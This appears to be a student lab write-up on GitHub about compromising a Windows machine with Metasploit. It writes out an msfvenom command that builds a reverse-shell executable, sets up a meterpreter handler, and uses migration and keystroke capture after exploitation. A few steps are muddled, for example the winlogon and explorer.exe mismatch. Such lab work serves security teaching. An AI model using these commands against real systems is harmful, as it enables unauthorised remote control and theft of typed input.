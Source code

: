 ![image](https://github.com/user-attachments/assets/da41744e-cb1e-4f9e-a55c-b71521705eb5)# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT :
![image](https://github.com/user-attachments/assets/2ea74fec-50ee-473a-81fd-bbff61774d1a)!
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT :
![image](https://github.com/user-attachments/assets/e262397b-e70d-4a16-ae22-0dd5bdf2a054)
copy the fun.exe into the apache /var/www/html folder sudo systemctl apache2 start
Check the status of apache2
## OUTPUT :
![image](https://github.com/user-attachments/assets/e0375077-ea3f-4614-aaa3-361682cd6a4b)
Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/3d81981e-615b-4d34-9e8a-f655ca6fdf8a)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT :
![image](https://github.com/user-attachments/assets/af3bd8d9-f183-4502-8d52-3e176c0f0d13)
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## OUPUT :
![image](https://github.com/user-attachments/assets/6da0f739-e73c-4463-86a4-bbdeae46011f)
WINDOWS :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads
## BROWSE OUTPUT:
![image](https://github.com/user-attachments/assets/5f7708c7-614b-4511-bcac-332a847a80a6)
## DOWNLOAD OUTPUT:
![image](https://github.com/user-attachments/assets/a168e8b9-7642-4537-ae47-c3adf63c3395)
## COME BACK TO PARROT:
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
## OUTPUT :
![image](https://github.com/user-attachments/assets/e3863cd5-b9d1-47e1-ab09-a11dbabeb04c)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
## OUTPUT :
![image](https://github.com/user-attachments/assets/ad12d840-9977-4d27-8458-ee5a1a05e8bb)
## WINDOWS OUTPUT :
![image](https://github.com/user-attachments/assets/4957dc88-dd6d-4bcb-98f1-d94e4800464b)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/1cf72375-433f-4d4a-8141-226927af6592)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

